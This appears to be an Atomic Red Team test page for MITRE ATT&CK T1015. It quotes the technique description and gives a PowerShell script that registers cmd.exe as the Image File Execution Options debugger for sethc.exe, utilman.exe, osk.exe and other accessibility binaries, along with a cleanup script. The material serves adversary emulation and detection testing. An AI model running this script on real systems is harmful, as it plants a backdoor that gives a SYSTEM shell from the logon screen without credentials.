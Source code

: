 # T1015 - Accessibility Features
## [Description from ATT&CK](https://attack.mitre.org/wiki/Technique/T1015)
<blockquote>Windows contains accessibility features that may be launched with a key combination before a user has logged in (for example, when the user is on the Windows logon screen). An adversary can modify the way these programs are launched to get a command prompt or backdoor without logging in to the system.

Two common accessibility programs are <code>C:\Windows\System32\sethc.exe</code>, launched when the shift key is pressed five times and <code>C:\Windows\System32\utilman.exe</code>, launched when the Windows + U key combination is pressed. The sethc.exe program is often referred to as "sticky keys", and has been used by adversaries for unauthenticated access through a remote desktop login screen. (Citation: FireEye Hikit Rootkit)

Depending on the version of Windows, an adversary may take advantage of these features in different ways because of code integrity enhancements. In newer versions of Windows, the replaced binary needs to be digitally signed for x64 systems, the binary must reside in <code>%systemdir%\</code>, and it must be protected by Windows File or Resource Protection (WFP/WRP). (Citation: DEFCON2016 Sticky Keys) The debugger method was likely discovered as a potential workaround because it does not require the corresponding accessibility feature binary to be replaced. Examples for both methods:

For simple binary replacement on Windows XP and later as well as and Windows Server 2003/R2 and later, for example, the program (e.g., <code>C:\Windows\System32\utilman.exe</code>) may be replaced with "cmd.exe" (or another program that provides backdoor access). Subsequently, pressing the appropriate key combination at the login screen while sitting at the keyboard or when connected over [Remote Desktop Protocol](https://attack.mitre.org/techniques/T1076) will cause the replaced file to be executed with SYSTEM privileges. (Citation: Tilbury 2014)

For the debugger method on Windows Vista and later as well as Windows Server 2008 and later, for example, a Registry key may be modified that configures "cmd.exe," or another program that provides backdoor access, as a "debugger" for the accessibility program (e.g., "utilman.exe"). After the Registry is modified, pressing the appropriate key combination at the login screen while at the keyboard or when connected with RDP will cause the "debugger" program to be executed with SYSTEM privileges. (Citation: Tilbury 2014)

Other accessibility features exist that may also be leveraged in a similar fashion: (Citation: DEFCON2016 Sticky Keys)

* On-Screen Keyboard: <code>C:\Windows\System32\osk.exe</code>
* Magnifier: <code>C:\Windows\System32\Magnify.exe</code>
* Narrator: <code>C:\Windows\System32\Narrator.exe</code>
* Display Switcher: <code>C:\Windows\System32\DisplaySwitch.exe</code>
* App Switcher: <code>C:\Windows\System32\AtBroker.exe</code></blockquote>

## Atomic Tests

- [Atomic Test #1 - Attaches Command Prompt as a Debugger to a List of Target Processes](#atomic-test-1---attaches-command-prompt-as-a-debugger-to-a-list-of-target-processes)


<br/>

## Atomic Test #1 - Attaches Command Prompt as a Debugger to a List of Target Processes
Attaches cmd.exe to a list of processes. Configure your own Input arguments to a different executable or list of executables.

Upon successful execution, powershell will modify the registry and swap osk.exe with cmd.exe.

**Supported Platforms:** Windows




#### Inputs:
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| parent_list | Comma separated list of system binaries to which you want to attach each #{attached_process}. Default: "osk.exe" | String | osk.exe, sethc.exe, utilman.exe, magnify.exe, narrator.exe, DisplaySwitch.exe, atbroker.exe|
| attached_process | Full path to process to attach to target in #{parent_list}. Default: cmd.exe | Path | C:&#92;windows&#92;system32&#92;cmd.exe|


#### Attack Commands: Run with `powershell`!  Elevation Required (e.g. root or admin) 


```powershell
$input_table = "#{parent_list}".split(",")
$Name = "Debugger"
$Value = "#{attached_process}"
Foreach ($item in $input_table){   
  $item = $item.trim()
  $registryPath = "HKLM:\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\$item"
  IF(!(Test-Path $registryPath))
  {
    New-Item -Path $registryPath -Force
    New-ItemProperty -Path $registryPath -Name $name -Value $Value -PropertyType STRING -Force
  }
  ELSE
  {
    New-ItemProperty -Path $registryPath -Name $name -Value $Value
  }
}
```

#### Cleanup Commands:
```powershell
$input_table = "#{parent_list}".split(",")
Foreach ($item in $input_table)
{
  $item = $item.trim()
  reg delete "HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\$item" /v Debugger /f | Out-Null
}
```





<br/>
